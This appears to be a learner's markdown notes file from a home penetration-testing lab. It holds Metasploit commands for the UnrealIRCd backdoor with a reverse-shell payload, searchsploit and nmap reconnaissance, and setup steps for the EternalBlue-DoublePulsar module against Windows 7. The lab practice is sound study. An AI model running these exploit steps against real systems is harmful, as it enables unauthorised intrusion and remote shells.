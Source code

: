```
Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/irc/unreal_ircd_3281_backdoor

msf6 auxiliary(scanner/ftp/ftp_version) > use exploit/unix/irc/unreal_ircd_3281_backdoor 
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOSTS <metasploitable ip>
RHOSTS => <metasploitable ip>
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse
payload => cmd/unix/reverse

```


```
┌──(kali㉿kali)-[~/dev/exploits_files]
└─$     searchsploit ftp 2.3.4

┌──(kali㉿kali)-[~]
└─$ searchsploit OpenSSH 4.7p1

┌──(kali㉿kali)-[~]
└─$ searchsploit apache 2.2.8

# scan all port
sudo nmap -sV 192.168.1.7 -p-

vncviewer <metasploitable ip>
```


~~need to open port 4444 on kali~~
~~netstat -lnu~~
~~┌──(kali㉿kali)-[~/dev/Ethical_Hacking_learning]~~
~~└─$ sudo ufw allow 4444~~

## Windows 7 exploits
SMB ports :
139
445
breach : Ethernal Blue
patch of SMBv1 flaws in 2020

### get and install additional exploit
install wine + exploit + windows python2
```
┌──(kali㉿kali)-[~/dev/Ethical_Hacking_learning]
└─$ sudo dpkg --add-architecture i386 && sudo apt-get update && sudo apt-get install wine32

as root 
wine msiexec /i python2.7.msi
┌──(kali㉿kali)-[~/dev/doublepulsar]
└─$ sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit/deps /usr/share/metasploit-framework/modules/exploits/windows/smb -r
┌──(kali㉿kali)-[~/dev/doublepulsar]
└─$ sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit/eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
┌──(kali㉿kali)-[~/dev/doublepulsar]
└─$ sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit/deps /root/ -r
┌──(kali㉿kali)-[~/dev/doublepulsar]
└─$ sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit/eternalblue_doublepulsar.rb /root 
┌──(kali㉿kali)-[~/dev/doublepulsar]
└─$ sudo cp EternalBlue/Eternalblue-Doublepulsar-Metasploit /root -r 
```
use new exploit 
```
use windows/smb/eternalblue_doublepulsar
```